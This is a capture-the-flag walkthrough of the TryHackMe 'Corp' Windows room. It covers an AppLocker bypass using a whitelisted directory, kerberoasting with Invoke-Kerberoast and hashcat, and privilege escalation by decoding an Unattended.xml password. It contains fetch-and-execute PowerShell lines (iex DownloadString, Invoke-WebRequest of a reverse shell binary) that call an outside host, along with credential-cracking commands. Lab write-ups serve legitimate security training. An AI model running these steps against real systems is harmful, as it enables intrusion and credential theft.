 ```yaml
---
title: Corp
published: true
---
```


Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

[https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)

![0xskar](/assets/hacking-group.jpg)

* * *

## Task 1 - Deploy the Windows machine 

In this room we will learn the following:

- Windows Forensics
- Basics of kerberoasting
- AV Evading
- Applocker

* * * 

## Task 2 - Bypassing Applocker 

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.

##   Answer the questions below

There are many ways to bypass AppLocker.

**If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default.**

Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``Invoke-WebRequest http://10.x.x.x/reverse.exe``

Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

**Access the file and and obtain the flag.**

- ``Get-Content "C:\Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"``

* * * 

## Task 3 - Kerberoasting 

Kerberos is the authentication system for Windows and Active Directory networks. In this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash.

##   Answer the questions below

Lets first enumerate Windows. If we run ``setspn -T Corp -Q */*`` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

**Running that command, we find an existing SPN. What user is that for?**

- fela

![0xskar](/assets/corp01.png)

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first get the Powershell Invoke-Kerberoast script.

- ``iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')``

Now lets load this into memory: ``Invoke-Kerberoast -OutputFormat hashcat |fl``

Or better yet

- ``Invoke-Kerberoast -OutputFormat hashcat | Select-Object -ExpandProperty Hash | Out-File -FilePath "C:\Users\dark\Desktop\hash.txt"``

You should get a SPN ticket.

![0xskar](/assets/corp02.png)

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

- ``hashcat -m 13100 -a 0 hash.txt /usr/share/seclists/Passwords/rockyou.txt --force``

**Crack the hash. What is the users password in plain text?**

![0xskar](/assets/corp03.png)

**Login as this user. What is his flag?**

![0xskar](/assets/corp04.png)

* * * 

## Task 4 - Privilege Escalation 

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

##   Answer the questions below

We will run PowerUp.ps1 for the enumeration.

Lets load PowerUp1.ps1 into memory.

- ``iex(New-Object Net.WebClient).DownloadString('http://10.x.x.x/PowerUp.ps1')``

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." [Read more about it here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64. Navigate to C:\Windows\Panther\Unattend\Unattended.xml.

**What is the decoded password?**

- ``base64 -d adminhash.txt``

**Now we have the Administrator's password, login as them and obtain the last flag.**

![0xskar](/assets/corp05.png)

* * * 